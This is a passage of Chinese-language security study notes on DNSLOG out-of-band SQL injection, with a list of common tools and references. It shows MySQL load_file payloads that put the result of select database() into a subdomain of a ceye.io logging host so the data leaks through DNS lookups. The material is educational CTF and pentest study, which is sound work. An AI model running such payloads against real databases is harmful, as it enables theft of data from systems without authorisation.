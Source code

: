 ### DNSLOG注入

**DNS在解析的时候会留下日志，通过读取多级域名的解析日志，来获取信息。简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。**

dnslog平台：[http://ceye.io/](http://ceye.io/)

```
mysql> use security;
Database changed

mysql> select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)

mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```
![sqli1.png](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406081948955.png)



## 其他相关资料

[SQL注入漏洞总结](https://wiki.wgpsec.org/knowledge/web/sql_injection.html)

# 常用工具

-   Burp Suite：[Burp Suite 使用介绍](https://blog.csdn.net/qq_35544379/article/details/76696106)
-   Tamper Data (Firefox 插件)
-   HackBar (Firefox 插件)
-   sqlmap：[sqlmap 用户手册](https://www.cnblogs.com/hongfei/p/3872156.html)

# 实战案例

参考分级通关IV-第五章-5.4节 SQL注入漏洞部分

# 参考资料

《从0到1：CTFer成长之路》第一章第二节SQL注入漏洞

《分级通关II》第十三章第一节SQL注入漏洞

[SQL 注入速查表](http://drops.xmd5.com/static/drops/tips-7840.html)

[MySQL 注入技巧](http://drops.xmd5.com/static/drops/tips-7299.html)

[《SQL 注入攻击与防御》](http://product.dangdang.com/23364650.html)